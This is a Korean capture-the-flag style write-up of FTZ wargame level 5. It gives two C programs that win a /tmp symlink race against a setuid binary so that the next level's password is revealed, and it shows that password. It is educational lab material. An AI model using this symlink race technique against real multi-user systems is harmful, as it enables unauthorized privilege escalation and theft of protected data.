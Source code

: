 ```yaml
---
title: FTZ 5번 Write-up
date: 2017-8-22 11:09:00
categories: FTZ
---
```


## FTZ 5번

이건 딱봐도 풀기 싫게 생겼다.

    [level5@ftz level5]$ ls
    hint  public_html  tmp
    [level5@ftz level5]$ cat hint
    
    /usr/bin/level5 프로그램은 /tmp 디렉토리에
    level5.tmp 라는 이름의 임시파일을 생성한다.
    
    이를 이용하여 level6의 권한을 얻어라.

`/usr/bin/level5`의 프로그램은 실행중일때만 `level5.tmp`라는 임시파일을 생성하고, 종료될경우, 임시파일은 바로 삭제된다.

    [level5@ftz level5]$ cd /tmp
    [level5@ftz tmp]$ ls
    mysql.sock
    [level5@ftz tmp]$ vi script.c
    int main(){
            int i;
            for(i=0;i<200000;i++){
                    system("/usr/bin/level5 &");
            }
    }
    [level5@ftz tmp]$ gcc -o script script.c

	[level5@ftz tmp]$ vi script1.c
    #include<stdio.h>
    int main(){
            int i=0;
            system("touch /tmp/level5.code");
            for(i=0;i<200;i++){
                    system("ln -s /tmp/level5.code /tmp/level5.tmp 2>/dev/null");
            }
            system("cat /tmp/level5.code");
    }
    [level5@ftz tmp]$ gcc -o script1 script1.c

이렇게 `/usr/bin/level5`를 계속 실행시키는 script 프로그램과 `/usr/bin/level5`가 실행되는 동안 `/tmp/level5.tm`p에 심볼릭 링크를 걸어주고, 마지막에 임시파일, 즉 플래그를 출력하도록 하는 script1 프로그램을 짜 보았습니다.

    [level5@ftz tmp]$ ./script &
    [1] 27505

`./script` 뒤에 `&`을 붙이면 백그라운드에서 실행하도록 해준다.
아래줄에 있는 5자리 수는 프로세스 번호로, `kill 27505`를 입력하면 script프로그램을 종료할 수 있습니다.

    [level5@ftz tmp]$ ./script1
    next password : what the hell

나왔네요.

